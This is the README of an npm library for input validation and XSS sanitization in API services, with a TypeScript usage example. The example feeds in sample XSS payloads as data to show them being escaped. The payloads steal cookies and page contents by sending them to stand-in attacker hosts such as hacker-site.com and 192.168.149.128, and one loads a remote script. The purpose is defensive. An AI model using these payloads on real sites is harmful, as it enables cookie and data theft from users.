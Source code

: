 <h1 align="center">@thermopylae/lib.api-validator</h1>
<p>
  <img alt="Version" src="https://img.shields.io/badge/version-0.0.1-blue.svg?cacheSeconds=2592000" />
  <img alt="Node Version" src="https://img.shields.io/badge/node-%3E%3D16-blue.svg"/>
<a href="https://marinrusu1997.github.io/thermopylae/lib.api-validator/index.html" target="_blank">
  <img alt="Documentation" src="https://img.shields.io/badge/documentation-yes-brightgreen.svg" />
</a>
<a href="https://github.com/marinrusu1997/thermopylae/blob/master/LICENSE" target="_blank">
  <img alt="License: MIT" src="https://img.shields.io/badge/License-MIT-yellow.svg" />
</a>
</p>

> User input validation and sanitization for api services.

## Install
```sh
npm install @thermopylae/lib.api-validator
```

## Description
This package allows you to validate user input used by API Services. <br/>
Validation is performed against JSON schema and XSS injections. <br/>
Detailed information can be found in the API Doc of the [ApiValidator][api-validator-link] class.

## Usage
Assuming you have a directory structure as described [here][api-validator-init-link], 
let's look at an example of how this package can be used. <br/>
Supposing we have the following schemas:
```text
└─ schemas
    └─ authentication-service
    │ ├─ login.json
    │ └─ logout.json
    ├─ book-service
    │ ├─ create.json
    │ ├─ read.json
    │ └─ delete.json
    └─ core
      └─ commons.json
```
We can perform validation in the following manner:
```typescript
import { ApiValidator, ValidationError } from '@thermopylae/lib.api-validator';

(async function main() {
    /* Perform initialization */
    const validator = new ApiValidator();
    // assuming schemas from 'core' folder are referenced by schemas from other service folders
    await validator.init('./schemas', ['core']);
    
    /* Successfull Scenario */
    let validData = {
        username: 'username',
        password: 'password'
    };
    // schema has id: #AUTHENTICATION_SERVICE-LOGIN
    validData = await validator.validate('AUTHENTICATION_SERVICE', 'LOGIN', validData);
    
    /* Error Scenario */
    try {
        let invalidData = {
            nameeee: 'Les Trois Mousquetaires',
            author: 'Alexandre Dumas'
        };
        invalidData = await validator.validate('BOOK_SERVICE', 'CREATE', invalidData);
    } catch (e) {
        if (e instanceof ValidationError) {
            console.error(validator.joinErrors(e.errors, 'text'));
            console.error(validator.joinErrors(e.errors, 'json'));
        }
        throw e;
    }
    
    /* XSS sanitization */
    const jsonWithXss = {
        // XSS Attack: steal sensitive information
        name: '<script>new Image().src="http://192.168.149.128/bogus.php?output="+document.body.innerHTML</script>',
        // XSS Attack: Steal user cookie
        surname: "<script>document.write('<img src=\"https://hacker-site.com/collect.gif?cookie=' + document.cookie + '\" />')</script>",
        // XSS Attack: Execute hacker script
        age: 'http://localhost:81/DVWA/vulnerabilities/xss_r/?name=<script src="http://192.168.149.128/xss.js">',
        // assuming this prop was added by some of your interceptors
        origin: {
            ip: '127.0.0.1'
        }
    };
    validator.sanitize(jsonWithXss, new Set(['origin.ip']));
    /**
     * After sanitization it will look like this:
     * {
     *   name: '&lt;script&gt;new Image().src="http://192.168.149.128/bogus.php?output="+document.body.innerHTML&lt;/script&gt;',
     *   surname: `&lt;script&gt;document.write('<img src="https://hacker-site.com/collect.gif?cookie=' + document.cookie + '" />')&lt;/script&gt;`,
     *   age: 'http://localhost:81/DVWA/vulnerabilities/xss_r/?name=&lt;script src="http://192.168.149.128/xss.js"&gt;',
     *   origin: {
     *       ip: '127.0.0.1'
     *   }
     * }
     */
    
    let stringWithXSS = '<button onclick=\'document.location= "http://www.example.com/cookie_catcher.php?c=" + document.cookie\'></button>';
    stringWithXSS = validator.sanitize(stringWithXSS);
    /**
     * After sanitization it will look like this:
     * '&lt;button onclick=\'document.location= "http://www.example.com/cookie_catcher.php?c=" + document.cookie\'&gt;&lt;/button&gt;'
     */
})();
```

## API Reference
API documentation is available [here][api-doc-link].

It can also be generated by issuing the following commands:
```shell
git clone git@github.com:marinrusu1997/thermopylae.git
cd thermopylae
yarn install
yarn workspace @thermopylae/lib.api-validator run doc
```

## Author
👤 **Rusu Marin**

* GitHub: [@marinrusu1997](https://github.com/marinrusu1997)
* Email: [dimarusu2000@gmail.com](mailto:dimarusu2000@gmail.com)
* LinkedIn: [@marinrusu1997](https://www.linkedin.com/in/rusu-marin-1638b0156/)

## 📝 License
Copyright © 2021 [Rusu Marin](https://github.com/marinrusu1997). <br/>
This project is [MIT](https://github.com/marinrusu1997/thermopylae/blob/master/LICENSE) licensed.

[api-doc-link]: https://marinrusu1997.github.io/thermopylae/lib.api-validator/index.html
[api-validator-link]: https://marinrusu1997.github.io/thermopylae/lib.api-validator/classes/apivalidator.html
[api-validator-init-link]: https://marinrusu1997.github.io/thermopylae/lib.api-validator/classes/apivalidator.html#init
